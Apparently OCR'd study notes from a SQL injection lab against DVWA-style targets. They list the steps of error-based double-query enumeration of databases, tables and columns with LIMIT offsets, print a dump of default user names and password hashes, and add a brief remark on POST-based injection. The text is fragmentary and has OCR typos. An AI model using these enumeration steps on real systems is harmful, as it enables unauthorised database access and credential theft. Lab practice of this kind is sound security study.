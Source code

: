 hackbar->union->data->group_concat

name,"<------>",comment,"---->",third


Error Based Double Query Exploitaion 

what about other database 

for if want to fetch remaining database 

you have to increase first value of first limit 

LIMIT  1,1 - challenges 

LIMIT  2,1 - dvwa 

LIMIT 3,1 - metasploit 

tables 

default tables 
LIMIT  0,1 -  guestbook 

LIMIT  1,1 - users 


LIMIT  2,1 -- you are not getting aything that means there is only two tables 


columns for double query based 

LIMIT  0,1   - user_id 

LIMIT  1,1.   ---  first_name 

LIMIT  2,1)). --- last_name 

LIMIT  3,1)). ---- user 

LIMIT  4,1)).  --- password 

LIMIT  5,1)). -- avatar 

LIMIT  0,1)). ---- nothing 

Data of these columns 
user        password 
admin		5f4dcc3b5aa765d61d8327deb882cf99
gordonb		e99a18c428cb38d5f260853678922e03
1337 		8d3533d75ae2c3966d7e0d4fcc69216b
pablo


-------------------------------------------
Post Based SQLI 

Balnace the query 

' --  

problem is    is not working with post based 

instead of    use space (  )
